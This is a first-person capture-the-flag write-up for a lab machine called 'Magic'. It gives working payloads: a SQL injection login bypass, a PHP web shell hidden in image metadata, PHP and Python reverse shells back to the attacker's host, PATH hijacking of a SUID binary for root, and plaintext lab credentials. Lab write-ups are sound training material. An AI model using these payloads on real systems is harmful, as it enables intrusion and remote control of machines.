





## Become User

### —- Enumeration —-
The first thing that I do is scan for the opened ports:
```bash
nmap -sC -sV -oA nmap 10.10.10.185
```
This command returns me the following result:
```bash
# Nmap 7.80 scan initiated Sun May 31 22:17:52 2020 as: nmap -sV -sC -oA nmap 10.10.10.185
Nmap scan report for 10.10.10.185
Host is up (0.044s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 31 22:18:05 2020 -- 1 IP address (1 host up) scanned in 12.20 seconds
```
It seems a very normal Linux machine, let’s go to see what can I find on port 80:

After a dirbuster scanning looking for .php extension I found the following pages:
```bash
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 200)
/assets (Status: 301)
/upload.php (Status: 302)
/logout.php (Status: 302)
/server-status (Status: 403)
```
At this point, the only entry point seems to be the “login.php” file.
Go to play a bit whit it!

### —- SQLi bypass —-
For the test to an SQLi point, I like to see the application’s behavior through Burp, I try to understand if it is vulnerable.

After some tests I found the easiest way to abuse the SQLi, modifying the post’s arguments as follow:
```
username=' -- -&password=random
```

Nice, now I am in front of an Upload form!


### —- Upload with magic —-
When I see an upload form I always rejoice, normally they give great emotions.

This specific upload form initially it seemed to me insuperable, every tries to upload a malformed file to get a “web shell” were blocked whit the following popup:


The security logic behind the form always checked:
* The final extension (allowed: png, jpg, jpeg)
* The integrity of the image

With these two checks I had to find a way to bypass both, te following steps reproduces the trick:
* Take an intact picture
* Rename it with the following command:
```bash
mv image.jpeg image.php.jpeg
```
* Add PHP code to his MetaData:
```bash
exiftool -documentname='<?php echo shell_exec($_GET["e"]." 2>&1"); infophp();?>' image.php.jpeg
```
* Upload the image to the website
* Make the following GET request to the image to retrieve a revershell:
```
http://10.10.10.185/images/uploads/image.php.jpeg?e=php+-r+%27$sock%3dfsockopen(%22MY-IP%22,MY-PORT)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%2
```


### —- Search for interesting info —-

On the machine, I’m able to see only another user, "theseus".
After some minutes to look around in the machine's filesystem I found the credentials that the application uses to interact with the database.
```
/var/www/Magic/db.php5
localhost:Magic:theseus:iamkingtheseus
```
Mysql client is not installed on the machine, so I used this PHP code to dump the entire database. (LINK)
What exactly I did:
* Write the linked code to the root web folder whit the credentials found
* Visited the written page from my browser to trigger the code
* Read the “dump.sql” file written by my PHP code with all the information

The very important information I found in this file was the credentials to log in to the Website’s uploads form:

```
admin:Th3s3usW4sK1ng
```
For some reason, the password was the same for the user on the machine, so [whit some magic](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) I upgraded my rever shell and i wrote the following command to becom the "theseus" user:

```
su theseus
```
and pass the found password!
The user's flag it's done!

## Become root

### —- Find a way —-

To give me the persistence to the machine I added my public id_rsa key to the ssh authorized_keys of the user "theseus".
In this way I can simply login to the machine through the following command:
```bash
ssh theseus@10.10.10.185
```
At this point, I spent some time around the machine to try to find a miss configuration or something that allow me to become root.
At the end of my research, I found an interesting non-standard SUID thanks to the following python script. ([LINK](https://github.com/Anon-Exploiter/SUID3NUM/blob/master/suid3num.py))



A non-standard SUID could be a possible attack vector, I need more information about /bin/sysinfo

A good way that I thought to see if and which executables are called by /bin/sysinfo it’s to use the "strings" command on it.



In the red box, I can see three different commands that are executed by /bin/sysinfo. NICE, IT’S TIME TO CREATE A FAKE EXECUTABLE!

### —- Privilege Escalation Using PATH Variable —-

All the technical details for this type of attack are linked [here](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

The following steps reproduce the trick:
* Write /tmp/lshw with the following payload:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY-IP",MY-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
* Run:
```bash
$ chmod 777 /tmp/lshw
$ export PATH=/tmp:$PATH
$ /bin/sysinfo
```
I have just to open a listening port before run /bin/sysinfo and a new root shell will spawn to me!



